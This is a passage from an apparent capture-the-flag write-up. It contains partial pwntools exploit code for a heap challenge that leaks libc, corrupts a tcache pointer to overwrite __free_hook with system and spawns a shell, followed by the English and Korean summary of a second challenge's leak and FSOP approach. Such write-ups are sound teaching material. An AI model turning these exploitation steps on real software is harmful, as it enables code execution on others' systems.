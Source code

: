 ```python
    p.sendafter(':', str(idx))

def View(idx):
    p.sendafter('it\n', '4')
    p.sendafter(':', str(idx))

for i in range(10):
    Malloc(0xf0)

for i in range(8):
    Free(str(i))

Malloc(0x10)
View(0)

leak = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
libc_base = leak - 0x3ebd90
print hex(libc_base)

Malloc(0x10)
Free(0)
Free(1)

Edit(-52, 'A' * 0xf8 + p64(0x21) + p64(libc.sym['__free_hook'] + libc_base))
Malloc(0x10)
Malloc(0x10)
Malloc(0x10)

Edit(2, p64(libc_base + libc.sym['system']))
Edit(1, '/bin/sh\x00')
Free(1)

p.interactive()
```

---



# success (957pts, 12solves)

## Summary

1. If you enter an invalid name, you can leak the pie address and libc address in the stack.
2. Filling the every value will result in a 4 byte overflow and can overwrite fd.
3. FSOP



잘못된 이름을 입력하면 printf("%s")로 사용자가 입력한 이름을 출력해주는데 이때 스택에 남아있는 데이터들을 출력시킬 수 있다. 이를 이용하여 pie 주소와 libc 주소를 알아낼 수 있다.
